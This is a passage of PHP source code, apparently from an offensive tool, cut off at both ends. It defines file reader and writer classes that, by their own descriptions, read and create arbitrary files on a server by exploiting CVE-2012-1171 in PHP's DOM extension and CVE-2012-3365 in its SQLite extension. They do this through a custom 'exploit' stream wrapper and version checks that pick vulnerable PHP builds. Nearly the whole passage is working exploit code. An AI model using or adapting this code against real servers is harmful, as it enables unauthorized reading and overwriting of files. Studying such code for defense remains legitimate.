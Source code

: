 ```php
		}
	}
function stream_open($path, $mode, $options, &$opened_path) {
$this->filePath = substr($path, 10);
$this->mode = $mode;
return true;
	}
public function stream_write($data) {
$this->fileContent = $data;
return strlen($data);
	}
}

class DOMFileWriter extends FileWriter {
function isAvailable() {
return extension_loaded('dom') && (version_compare(phpversion(), '5.3.10', '<=') || version_compare(phpversion(), '5.4.0', '='));
	}
function getDescription() {
return 'Write to and create a file exploiting CVE-2012-1171 (allow overriding). Notice the content should be in well-formed XML format.';
	}
function write($content) {
// set it to global resource in order to trigger RSHUTDOWN
global $_DOM_exploit_resource;
		stream_wrapper_register('exploit', 'StreamExploiter');
		$_DOM_exploit_resource = fopen("exploit://{$this->getFilePath()}", 'w');
		fwrite($_DOM_exploit_resource, $content);
	}
}

class DOMFileReader extends FileReader {
function isAvailable() {
return extension_loaded('dom') && (version_compare(phpversion(), '5.3.10', '<=') || version_compare(phpversion(), '5.4.0', '='));
	}
function getDescription() {
return 'Read a file exploiting CVE-2012-1171. Notice the content should be in well-formed XML format.';
	}
function read() {
// set it to global resource in order to trigger RSHUTDOWN
global $_DOM_exploit_resource;
		stream_wrapper_register('exploit', 'StreamExploiter');
		$_DOM_exploit_resource = fopen("exploit://{$this->getFilePath()}", 'r');
	}
}

class SqliteFileWriter extends FileWriter {
function isAvailable() {
return is_writable(getcwd())
			&& (extension_loaded('sqlite3') || extension_loaded('sqlite'))
			&& (version_compare(phpversion(), '5.3.15', '<=') || (version_compare(phpversion(), '5.4.5', '<=') && PHP_MINOR_VERSION == 4));
	}
function getDescription() {
return 'Create a file with custom content exploiting CVE-2012-3365 (disallow overriding). Junk contents may be inserted';
	}
function write($content) {
		$sqlite_class = extension_loaded('sqlite3') ? 'sqlite3' : 'SQLiteDatabase';
		mkdir(':memory:');
		$payload_path = getRelativePath(getcwd() . '/:memory:', $this->getFilePath());
```